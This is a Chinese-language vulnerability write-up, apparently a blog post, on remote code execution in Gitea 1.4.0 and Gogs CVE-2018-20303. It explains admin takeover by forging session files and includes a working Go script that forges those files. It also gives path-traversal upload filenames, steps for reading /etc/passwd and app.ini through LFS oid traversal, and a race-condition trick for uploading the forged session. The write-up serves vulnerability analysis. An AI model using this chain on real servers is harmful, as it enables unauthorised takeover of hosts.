

# gitea&gogs rce总结

## 背景知识
gitea和gogs都是自己托管的Git服务程序，由golang编写。gitea本身是从gogs中fork出来的，所以无论从代码结构还是依赖库来看，两者都有很多相似之处。
在gitea-v1.4.1的release log中可以看到修复了一个lfs oid处理不当的security bug，这个bug在v1.4.1以前的版本能造成的效果是**无需任何权限的rce**。漏洞原理非常简单，参考网上的分析文章都能明白。但是这个漏洞最有趣的地方在于它实现rce的利用方式，为了更好地理解利用方式，我先介绍一些背景知识。

### 普通账号和管理员账号的区别
gitea/gogs中，uid为1的账号自动成为管理员账号。管理员账号和普通账号的区别之一体现在仓库设置，管理员多了1个Git Hooks编辑攻能。比如下面截图中，我选了编辑pre-receive钩子，钩子的内容是bash语言。我在注释下的首行添加一条命令，之后回到test仓库创建一个任意文件刚才添加的命令就执行了。

到此得出结论：**rce = 成为管理员**

### session管理
既然 成为管理员 = rce，很自然就会去想，如何成为管理员。爆破也是一种手段，但显然无法保证成功率。gitea/gogs使用Macaron库管理路由、session等。gitea/gogs默认使用文件来管理session。

上图中，Cookie中i_like_gogs的值是服务端判断请求者身份的凭据，这个字符串我简称为fd3e实际上是个文件名，位于`/data/gogs/data/sessions/f/d`目录下。

sessions目录为了方便理解可以分为 base目录(/data/gogs/data/sessions)和生成目录(f/d/)，后者之所以叫生成目录是因为它的命名是取session文件即fd3e字符串的前两位来命名。fd3e文件的内容是由golang自带的序列化机制gob编码而成，可以用gitea/gogs中自带的解码函数解码。

解码以后内容一目了然，只有用户名和uid（uid为1自动成为管理员），之后在gogs的测试中发现，即使用户名uname错误，服务端只校验uid，这个情况对gitea的利用是有帮助的，不过这是后话。
到此得出结论： **成为管理员 = 能上传自定义文件且可以穿越路径且能部分控制文件名**
这里有一点需要补充一下，之所以要求部分控制文件名，是因为session目录的第2部分，生成目录命名只能是`[0-9a-f]`。

根据上面两部分背景知识，只要找一个满足一定条件的上传漏洞，就能实现rce。带着这个认识，下面两个漏洞就很好理解了，漏洞挖掘思路都是怎么去找**上传点**。

## gogs cve-2018-20303
cve-2018-20303相对来说更直观，前面说了为了rce需要找到可控的上传点，在这类git仓库产品中找可控的上传点，很容易想到自建仓库中的上传文件功能，所以这个漏洞是**需要普通账号权限**。利用步骤是：
1. 准备生成自定义session文件的go脚本
2. 上传自定义session，修改表单中的文件名为`../../../sessions/x/x/xxxx`  

生成session的脚本：
```
package main

import (
    "fmt"
    "encoding/gob"
    "bytes"
    "io/ioutil"
)

func EncodeGob(obj map[interface{}]interface{}) ([]byte, error) {
    for _, v := range obj {
        gob.Register(v)
    }
    buf := bytes.NewBuffer(nil)
    err := gob.NewEncoder(buf).Encode(obj)
    return buf.Bytes(), err
}

func main() {
    // settings start 
    filename := "xxxx"
    uname := "admin1"
    // settings end

    // don't edit this!
    var uid int64 = 1

    obj := map[interface{}]interface{} {"_old_uid": "1", "uid": uid, "uname": uname }
    data, err := EncodeGob(obj)
    if err != nil {
        fmt.Println(err)
        return 
    }
    if err = ioutil.WriteFile(filename, data, 0600); err != nil {
        fmt.Println(err)
        return 
    }
}
```
漏洞利用提醒两点：
1. 上传的session文件最好存到已经有的目录，比如你拥有的账号，cookie中i_like_gogs = fd...3e，那显然肯定存在一个名为`f/d`的生成目录。因此把上传的文件名改为以fd开头，后面随意命名，服务器存储的时候不会更改。
2. 生成session的go脚本，根据注释修改需要设置的，不要动别的地方。

## gitea 1.4.0
gitea 1.4.0的利用条件更宽松，无需任何账号权限。它的上传点是lfs，lfs简单来说是git用来上传大文件的一种机制。网上的分析文章已经有很多，在此不赘述了。利用步骤是：
1. 生成自定义session
2. 利用越权post一个穿越路径的oid到数据库中给步骤3用
3. 利用get读取app.ini中的jwt_secret，生成jwt_token
4. 利用越权post一个穿越路径的oid到数据库中给步骤5用
5. 利用put带上jwt_token上传自定义session  

步骤1和gogs的利用类似。

步骤2越权post的payload大概类似下图：

我这里用绝对路径读/etc/passwd，实际利用中，在步骤2应该读取app.ini。默认条件下，app.ini与lfs上传目录位于同一个根目录下，所以在实际利用中，用相对路径去读取app.ini的效果更好。截图中圈出来的部分为服务端会check的部分，包括：
```
path:
在没有账号的情况下，可以通过Explore看有没有游客也可以浏览的仓库。
任何仓库都可以，只要仓库名和对应的用户名，然后构造path：
/用户名/仓库名.git/info/lfs/objects
path后面的部分是路由写死，参考routes.go

header:
Accept必须为application/vnd.git-lfs+json
参考server.go的MetaMatcher函数

body:
Oid是穿越路径用的，当长度大于5时会自动在s[0:2]、s[2:4]后面添加路径分隔符
Size和之后的get、put操作的文件大小有关，可以预设一个大值
```

步骤3、4没什么可说。

步骤5用流式传输造成竞争来阻止服务端删除临时文件的想法很巧妙，具体在实现上就是用requests库发送的时候body值用function生成，function里两次yield，第一次yield返回真实的上传内容，yield之间根据需要插入sleep，在sleep期间就可以短暂地提权成为管理员rce了。

## 写在最后
在背景知识里我说过，这两个漏洞最有趣的地方在于利用方式，通过文件上传达到高权限（git）的rce效果，投入产出比非常高。像gitea 1.4.0无权限rce的情况，以后很难碰到，毕竟考虑到golang代码编码习惯，那个miss的return很可能是作者忘了。大概率出现的，是像cve-2018-20303通过普通权限提权然后rce的情况。
这两个漏洞的利用，在某种程度上，要归功于Macaron库。不同于传统的数据库和配置文件分离，即使拿到数据库没有配置文件中的密钥也解不开某些关键加密数据比如用户密码。而Macaron提供的身份凭证文件没有任何加密的东西，自己就可以生成。另外在最新的代码中，还是能看到大量的filepath.Join直接连接变量没有任何校验，这就为路径穿越提供了可能。